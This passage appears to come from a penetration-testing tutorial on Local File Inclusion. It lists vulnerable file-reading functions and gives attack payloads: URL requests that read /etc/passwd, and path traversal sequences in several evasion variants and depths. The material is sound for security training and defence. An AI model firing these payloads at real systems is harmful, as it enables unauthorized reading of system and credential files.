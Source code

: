 ### Vulnerable Functions

**PHP Functions:**
- `include()` / `include_once()`
- `require()` / `require_once()`
- `file_get_contents()`
- `fopen()` / `fread()`
- `readfile()`
- `file()`

**Other Languages:**
- **Node.js:** `fs.readFile()`, `fs.readFileSync()`
- **Python:** `open()`, `file()`
- **Java:** `FileInputStream`, `Files.readAllLines()`
- **.NET:** `File.ReadAllText()`, `StreamReader`

---

## Basic LFI Exploitation

### 1. Direct File Access

**Example Application:**
```
http://target.com/index.php?language=en
```

**LFI Test:**
```bash
# Test basic LFI
http://target.com/index.php?language=/etc/passwd

# Expected result: Contents of /etc/passwd displayed
```

### 2. Path Traversal Techniques

**Directory Traversal Sequences:**
```bash
# Basic path traversal
../../../../../../../etc/passwd

# Alternative variations
..\/..\/..\/..\/etc/passwd
....//....//....//etc/passwd

# Absolute paths (sometimes work)
/etc/passwd
C:\Windows\System32\drivers\etc\hosts
```

**Common Path Depths:**
```bash
# Test different depths
../etc/passwd
../../etc/passwd
../../../etc/passwd
../../../../etc/passwd
../../../../../etc/passwd
../../../../../../etc/passwd
../../../../../../../etc/passwd
../../../../../../../../etc/passwd
```
